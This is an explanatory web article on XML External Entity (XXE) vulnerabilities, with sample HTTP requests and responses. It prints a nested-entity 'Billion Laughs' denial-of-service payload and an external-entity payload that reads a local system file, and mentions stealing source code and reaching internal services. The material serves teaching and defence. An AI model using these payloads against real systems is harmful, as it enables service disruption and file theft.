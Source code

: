 # What Is XML External Entity (XXE)?

_Captured: 2017-07-15 at 10:11 from [dzone.com](https://dzone.com/articles/what-is-xml-external-entity-xxe?oid=twitter&utm_content=buffer522d5&utm_medium=social&utm_source=twitter.com&utm_campaign=buffer)_

XML External Entity (XXE) refers to a specific type of [Server-Side Request Forgery (SSRF)](https://dzone.com/articles/what-is-server-side-request-forgery-ssrf) attack, whereby an attacker is able to cause Denial of Service (DoS) and access local or remote files and services, by abusing a widely available, rarely used feature in XML parsers.

XML is a vastly used data format found in everything from web services (XML-RPC, SOAP, REST, etc.) to documents (XML, HTML, DOCX) and image files (SVG, EXIF data, etc.) use XML. Naturally, where there is XML, there is an XML parser - hold onto that thought, we'll be coming back to it shortly.

The following is an example of a simple web application that accepts XML input, parses it, and outputs the result.

Request Response
    
    
    POST http://example.com/xml HTTP/1.1
    
    
    <foo>
    
    
    Hello World
    
    
    </foo>

  

    
    
    HTTP/1.0 200 OK
    
    
    Hello World

XML, however, can do much more than simply declare elements, attributes, and text. XML documents can specify a set of markup declarations that define a document type, in order for an XML parser to validate the XML document for correctness before it gets processed. There are two ways of doing this - either through an XML Schema Definition (XSD), or a Data Type Definition (DTD).

Data Type Definitions (DTDs), are what we shall be focusing on since that's where XML External Entity vulnerabilities occur. DTDs can, pretty much, be considered legacy, in fact, they are derived from SGML (XML's ancestor).

The following is an example of a Data Type Definition (DTD) called `foo` with an element called`bar`, which is now an alias of the word "World." Therefore, anytime `&bar;` is used, the XML parser will replace that entity with the word "World."

Request Response
    
    
    POST http://example.com/xml HTTP/1.1
    
    
    <!DOCTYPE foo [
    
    
      <!ELEMENT foo ANY>
    
    
      <!ENTITY bar "World">
    
    
    ]>
    
    
    <foo>
    
    
      Hello &bar;
    
    
    </foo>

  
  

    
    
    HTTP/1.0 200 OK
    
    
    Hello World

  
  
  
  
  
  
  


While this initially seems harmless, XML entities can be used by an attacker to cause a Denial of Service attack by embedding entities within entities within entities. This attack is commonly referred to as the "[Billion Laughs Attack](https://en.wikipedia.org/wiki/Billion_laughs)." Some XML parsers automatically limit the amount of memory they can use.

Request Response
    
    
    POST http://example.com/xml HTTP/1.1
    
    
    <!DOCTYPE foo [
    
    
      <!ELEMENT foo ANY>
    
    
      <!ENTITY bar "World ">
    
    
      <!ENTITY t1 "&bar;&bar;">
    
    
      <!ENTITY t2 "&t1;&t1;&t1;&t1;">
    
    
      <!ENTITY t3 "&t2;&t2;&t2;&t2;&t2;">
    
    
    ]>
    
    
    <foo>
    
    
      Hello &t3;
    
    
    </foo>

  

    
    
    HTTP/1.0 200 OK
    
    
    Hello World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World

  
  
  
  


XML entities, however, can be used for much more than Denial of Service since XML entities do not necessarily have to be defined **in the XML document**. In fact, XML entities can come from just about anywhere - including **external sources**, hence the name XML External Entity (XXE). This is where XXE becomes a type of [Server-Side Request Forgery (SSRF) attack](https://www.acunetix.com/blog/articles/server-side-request-forgery-vulnerability/).

![XML External Entity](https://www.acunetix.com/wp-content/uploads/2017/07/image1.png)

An attacker can make the following request, and if the XML parser is configured to process external entities (by default, many popular XML parsers are configured to do so), it will return the contents of a file on the system.

Request Response
    
    
    POST http://example.com/xml HTTP/1.1
    
    
    <!DOCTYPE foo [
    
    
      <!ELEMENT foo ANY>
    
    
      <!ENTITY bar SYSTEM
    
    
      "file:///etc/lsb-release">
    
    
    ]>
    
    
    <foo>
    
    
      &bar;
    
    
    </foo>

  
  

    
    
    HTTP/1.0 200 OK
    
    
    DISTRIB_ID=Ubuntu
    
    
    DISTRIB_RELEASE=16.04
    
    
    DISTRIB_CODENAME=xenial
    
    
    DISTRIB_DESCRIPTION="Ubuntu 16.04 LTS"

  
  
  
  
  


Of course, an attacker is not limited to system files. An attacker can easily steal source code if they know the location and structure of the web application. It's also worth mentioning, that with some XML parsers, it's even possible to get directory listings in addition to the contents of a file.

XML External Entity can be taken even further by making regular HTTP requests to files on the **local** network (i.e. accessible only behind the firewall).
